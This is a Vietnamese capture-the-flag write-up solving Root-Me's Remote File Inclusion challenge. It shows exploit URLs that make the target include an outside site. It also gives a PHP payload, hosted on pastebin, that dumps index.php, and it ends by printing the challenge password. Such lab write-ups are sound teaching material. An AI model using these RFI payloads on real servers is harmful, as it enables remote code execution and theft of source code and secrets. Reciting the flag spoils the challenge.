




# Challenge: Remote File Inclusion
## Người làm:   
    Nguyễn Ngọc Trưởng - 19522440
    Thời gian:
## Link: 
    https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion

- Thử thách cho ta 2 trang, với biến lang được truyền vào sẽ làm render sang các trang khác nhau. Ta thử xem có khai thác RFI được không khi đó 
>http://challenge01.root-me.org/web-serveur/ch13/?lang=https://www.uit.edu.vn/?
<p align="center"></p>

- Ta dùng thấy đã include được trang web trường UIT vào thử thách.
<p align="center"></p>

- Như vậy ta sẽ tiếp tục khai thác RFI ở thử thách này, ta sẽ dùng trang web https://pastebin.com/ để lưu payload cần attack.
```
<?php $data = file_get_contents("index.php"); echo $data; ?>
```
> http://challenge01.root-me.org/web-serveur/ch13/?lang=https://pastebin.com/raw/VpmNrJCi?
<p align="center"></p>

- Kiểm tra mã nguồn thì ta thấy thông tin password
<p align="center"></p>


## Kết quả password là `R3m0t3_iS_r3aL1y_3v1l`